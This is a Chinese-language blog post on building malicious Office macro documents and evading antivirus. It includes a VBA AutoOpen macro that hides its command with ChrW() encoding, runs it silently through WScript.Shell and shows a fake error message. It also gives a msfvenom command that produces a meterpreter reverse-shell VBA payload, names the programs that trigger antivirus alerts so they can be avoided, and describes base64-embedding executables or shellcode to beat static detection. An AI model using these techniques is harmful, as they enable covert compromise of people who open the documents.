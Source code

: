 ```yaml
---
layout: post
title:  "恶意宏文档与免杀"
date:   2019-12-3 12:48:05 +0800
categories: apt
---
```


office宏，译自英文单词Macro。宏是微软公司为其OFFICE软件包设计的一个特殊功能，软件设计者为了让人们在使用软件进行工作时，避免一再地重复相同的动作而设计出来的一种工具，它利用简单的语法，把常用的动作写成宏，当在工作时，就可以直接利用事先编好的宏自动运行，去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。

# 生成执行cmd的宏

项目地址 https://github.com/metac0rtex/Office-Macro-Generator

生成示例:

```vb
Public Sub AutoOpen()
  Dim cmd As String
  BxJnb = ChrW(99) & ChrW(115) & ChrW(99) & ChrW(114) & ChrW(105) & ChrW(112) & ChrW(116) & ChrW(32) & ChrW(68) & ChrW(58)
  SAnJV = ChrW(92) & ChrW(116) & ChrW(101) & ChrW(115) & ChrW(116) & ChrW(49) & ChrW(49) & ChrW(49) & ChrW(46) & ChrW(118)
  JKkJK = ChrW(98) & ChrW(115)
  cmd = BxJnb & SAnJV & JKkJK
  Dim Obj as Object
  Set Obj = CreateObject("WScript.Shell")
  Obj.Run cmd, 0
  MsgBox ("Required rescource could not be allocated")
End Sub
  cmd = cmd & "cscript D:\test111.vbs"
```

主要就是使用ChrW()拼接成cmd，然后通过调用WScript.Shell执行命令

类似项目：

https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator 

https://github.com/infosecn1nja/MaliciousMacroMSBuild

# 使用msf生成宏

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -f vba -o try.vba
```

使用msf生成vba代码，放入word中即可。

msf生成的宏使用shellcode动态加载技术，运行时在内存中注入shellcode并执行

# 免杀

灵活运用base64就可以达到免杀的效果，此处只讲解原理并提供思路。

## cmd宏的免杀

执行cmd本身不会引起杀软的注意，但是当进行敏感操作时杀软就会警告（如调用powershell、cscript、wscript、bitsadmin、certutil等），因此执行命令时应该避开调用这些程序。

以火绒为例:

![火绒](/assets/images/20191203141834.png)

思路：

将免杀的exe进行base64编码写入代码中，当宏执行时释放exe并运行。

## 基于动态加载shellcode的宏的免杀

最开始尝试直接使用veil混淆过的shellcode进行免杀，但是并没有达到效果。

https://payloads.online/archivers/2019-05-16/1 倾旋在博客中提过将shellcode通过自增等操作进行混淆。

根据这个思路，我们可以将shellcode进行base64编码，运行的时候再将编码后的shellcode还原。

## 思路拓展

base64编码本质上是一种加密过程，将payload视为明文，通过编码的得到密文，在程序运行时再讲密文还原为明文，以此来绕过杀软的静态检测。如果可以自己实现一种加密方式，就可以达到很好的免杀效果。